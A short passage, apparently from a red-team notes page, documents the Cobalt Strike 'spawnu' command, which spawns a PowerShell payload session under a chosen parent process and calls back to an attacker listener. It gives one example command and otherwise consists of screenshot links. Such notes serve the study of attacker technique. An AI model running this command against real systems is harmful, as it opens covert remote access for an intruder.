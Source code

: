 ![](../../.gitbook/assets/screenshot-from-2019-01-07-20-52-16.png)

### Spawnu

Spawn a session with powershell payload from a given parent PID:

{% code title="attacker@cs" %}
```csharp
beacon> spawnu 3848 httplistener
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-01-07-20-57-30.png)

![](../../.gitbook/assets/screenshot-from-2019-01-07-20-57-25.png)
